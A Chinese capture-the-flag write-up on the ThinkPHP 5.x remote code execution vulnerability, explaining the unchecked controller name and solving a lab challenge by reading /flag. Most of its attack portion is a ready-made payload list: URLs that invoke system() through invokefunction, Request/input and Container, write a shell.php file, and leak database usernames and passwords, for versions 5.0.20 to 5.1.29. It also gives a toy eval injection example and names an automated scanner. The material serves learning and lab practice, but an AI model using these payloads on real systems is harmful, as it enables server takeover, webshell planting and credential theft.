

题目描述：
无
题目信息：
这里也是第一正式做有关框架的漏洞，那就顺手学习一波
0x01 ThinkPHP 5漏洞简介
ThinkPHP官方2018年12月9日发布重要的安全更新，修复了一个严重的远程代码执行漏洞。该更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。
看得出来程序没经过控制器进行过滤，所以可以用/来控制程序。
搞不懂这个漏洞是怎么搞出来的，借用一下大神的答案。
1
| ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=操作系统命令 (如 dir whoami)
|
ThinkPHP框架的主要特点包括：
MVC架构：采用经典的MVC（Model-View-Controller）架构，将应用程序的业务逻辑、数据模型和用户界面分离，使得应用程序更易于维护和扩展。
ORM支持：提供了强大的ORM（Object-Relational Mapping）支持，可以将数据库表映射为对象，使得开发人员可以更方便地操作数据库。
缓存支持：提供了多种缓存支持，包括文件缓存、Memcached缓存、Redis缓存等，可以提高应用程序的性能和响应速度。
安全性：提供了多种安全机制，包括输入验证、输出过滤、SQL注入防护、XSS防护等，可以保障应用程序的安全性。
扩展性：提供了丰富的扩展机制，包括插件机制、行为机制、模板引擎扩展等，可以方便地扩展和定制应用程序。
0x02 PHP REC
PHP RCE 指的是通过远程代码执行漏洞（Remote Code Execution）来攻击 PHP 程序的一种方式。简单来说，由于PHP应用程序没有正确处理外部输入数据（如用户提交的表单、请求参数等），攻击者通过某些手段向 PHP 应用程序中注入恶意代码，然后通过这些恶意代码实现对受攻击服务器的控制。
下面简单介绍一种常见的远程 RCE 漏洞利用方式，即利用 PHP 中的 eval 函数实现 RCE 的方式。在该示例中，攻击者可以通过 HTTP 请求向目标服务器传递 PHP 代码，并执行该代码：
// 服务端代码
$user_input = $_GET['user_input']; // 没有对输入进行过滤
eval('$result = ' . $user_input . ';'); // 远程代码执行
// 攻击者构造恶意代码
http://example.com/index.php?user_input=system('ls%20-la');
//远程执行 "ls -la" 命令。
由于服务器代码没有对 user_input 的内容进行过滤和验证，攻击者可以通过 user_input 参数发送任意 PHP 代码，并将其作为一个字符串传递给 eval 函数进行执行，成功实现ls -la命令。
在 Unix/Linux 系统中，ls -la 命令可以列出当前目录下的所有文件和子目录，并显示它们的详细信息，包括权限、创建时间、大小等等。
0x03 ThinkPHP V5漏洞Payload
3.1 thinkphp 5.0.22
1
2
3
4
5
6
7
8
| 1、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username
2、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password
3、http://url/to/thinkphp_5.0.22/?
s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
4、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
|
3.2 thinkphp 5
1
| 1、http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1
|
3.3 thinkphp 5.0.21
1
2
3
| 1、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
2、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
|
3.4 thinkphp 5.1.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
| 1、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1
2、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd
3、http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
4、http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E
5、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
6、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd
7、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
8、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd
|
3.5 thinkphp5.0.20
1
| 1、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
|
题目解题：
在这里呢，不先啰嗦漏洞的复现，复现就放在漏洞库吧，有时间先搞这个，我们回归题目
方法一：手工
使用thinkphp 5.1.payload，测试一手框架版本
URL + /?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls
回显如下：
真实原理目前没了解，不过能看出来，这里的poc思路是调用一个方法，传入call_user_func_array函数，接着传入system，则会成功执行system(‘ls’)；命令
发现报错，显示版本为5.0.20，那我们对应使用poc即可
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
成功执行，更换命令
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls
在查看一下根目录
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /

?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag
拿到flag
方法二：工具检测
对于thinkphp框架Github上有一个专用的漏洞验证工具：https://github.com/zangcc/Aazhen-v3.1
下载项目中的jar包之后，在Aazhen_RexHa文件根目录下运行命令打开该工具
1
| java -javaagent:rexha.jar -jar rexha.jar
|
打开工具后将靶场地址粘进去，全扫一遍后发现有两个漏洞，一个是远程代码执行，还有一个数据库信息泄露

远程代码任意执行一般能拿到不少东西，先使用这个，此工具已经给一个可用的url案例，我们只需要更改就可以了
1
2
3
4
| http://61.147.171.105:49836/index.php?s=%2FIndex%2F%5Cthink%5Capp%2Finvokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=id
//这个url已经过urlencode，为了方便理解，下面一行使用urldecode结果展示
http://61.147.171.105:49836/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
|
1
2
3
4
5
6
7
8
9
10
11
12
| 参数解析
这个URL参数是对目标web服务器进行的远程代码执行
ThinkPHP的请求处理器（think）
应用程序控制器（app）
函数调用器（invokefunction）
通过invokefunction指定了要调用的函数名为"calluserfuncarray"。该函数的作用是调用一个用户自定义的函数，并将一个数组作为参数传递给该函数。
在这个URL请求中，该函数的第一个参数是"system"，表示要执行的系统命令，
第二个参数是一个数组，其中包含要传递给该命令的参数。在这个例子中，该数组只包含一个参数"id"
下面我们把的第二个数组元素内容作为要执行的命令修改以下就ok了
|
这里参考方法一即可，不在赘述
参考文章：
方法一参考
方法二参考